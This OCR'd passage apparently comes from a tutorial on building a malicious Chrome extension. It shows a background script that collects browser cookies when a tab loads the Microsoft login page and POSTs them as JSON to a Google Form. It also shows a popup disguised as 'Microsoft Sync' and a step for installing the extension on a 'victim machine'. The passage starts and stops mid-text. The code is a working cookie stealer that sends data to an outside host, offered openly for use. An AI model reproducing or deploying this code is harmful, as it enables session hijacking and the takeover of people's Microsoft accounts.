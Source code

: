 ```
  }); 
}

function exfiltrateCookiesToGoogleForm(cookies) { 
  const cookieJson = JSON.stringify(cookies, null, 2); 

  const formData = new URLSearchParams(); 
  formData.append(FIELD_NAME, cookieJson); 

  fetch(FORM_URL, { 
    method: "POST", 
    body: formData, 
    headers: { 
      "Content-Type": "application/x-www-form-urlencoded" 
    },
    mode: "no-cors"  // Add 'no-cors' mode to bypass CORS policy
  }).then(() => {
    console.log("Cookies exfiltrated (simulated).");
  }).catch(err => {
    console.error("Exfiltration failed:", err);
  }); 
}

// Trigger only on login page load
chrome.tabs.onUpdated.addListener((tabId, changeInfo, tab) => {
  if (changeInfo.url && changeInfo.url.includes("https://login.microsoftonline.com")) {
    console.log("Detected Microsoft login, extracting cookies...");
    extractAndExfiltrateCookies();
  }
});

console.log("Background service worker loaded");
```
#### popup.html  

```
<!DOCTYPE html>
<html>
<head>
  <title>Stealer Active</title>
  <style>
    body {
      font-family: Arial, sans-serif;
      padding: 10px;
      width: 200px;
    }
    .status {
      color: green;
      font-weight: bold;
    }
  </style>
</head>
<body>
  <h3>Microsoft Sync</h3>
  <p class="status">Status: Connected</p>
</body>
</html>

```
#### Step4: Install the extension on victim machine.
Chrome extensions can be installed in two main ways development or deployment method.
**Development mode(As folder (unpacked extension)**: